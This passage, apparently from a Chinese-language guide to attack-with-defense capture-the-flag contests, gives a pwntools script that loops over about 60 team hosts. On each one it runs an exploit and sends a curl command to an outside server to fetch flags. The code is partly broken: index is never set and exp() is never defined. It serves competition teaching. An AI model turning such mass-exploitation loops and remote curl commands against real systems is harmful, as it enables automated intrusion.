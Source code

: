 [https://github.com/david942j/seccomp-tools](https://github.com/david942j/seccomp-tools)

## 攻击技巧

### 自动化脚本

awd 赛场上一般都有很多队伍的靶机，多的有大概 50~60 个，而一轮也就 5~10 分钟，这会导致我们如果跟原来做 pwn 题一样一个个打然后提交时间根本不够，甚至都没有时间来修漏洞，所以我们需要一些自动脚本来辅助我们自动攻击所有靶机拿到 flag（笔者第一次 awd 的惨痛教训）

例：

```bash
from pwn import *

#context(arch='amd64', os='linux',log_level='debug')#
flag1=[]
file_name = './pwn'
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
li = lambda x : print('\x1b[01;38;5;214m' + str(x) + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + str(x) + '\x1b[0m')

elf = ELF(file_name)

def dbg():
    gdb.attach(r)
    pause() 
def dbgg():
    raw_input()

for x in range(60):
    try:
        ip = "10.50.{}.4".format(x+2)
        prot = '1234'
            # print ip
        r = remote(ip,int(prot))
        #攻击脚本
        exp()
        payload = "curl http://10.0.1.2?token=CRUTRZIW"#根据主办方的要求来获取 flag
        r.sendline(payload)
        sleep(1)#在一些靶机多的环境下最好加几个 sleep，防止卡住
        sleep(1)
        flag = r.recv(0x20)
        print(str(flag))
        flag1.append(flag)
        index+=1
    except:
            print(ip)
            r.close()
print(flag1)
print("本轮共拿到"+str(index)+"个队伍的 flag")
r.interactive()
```
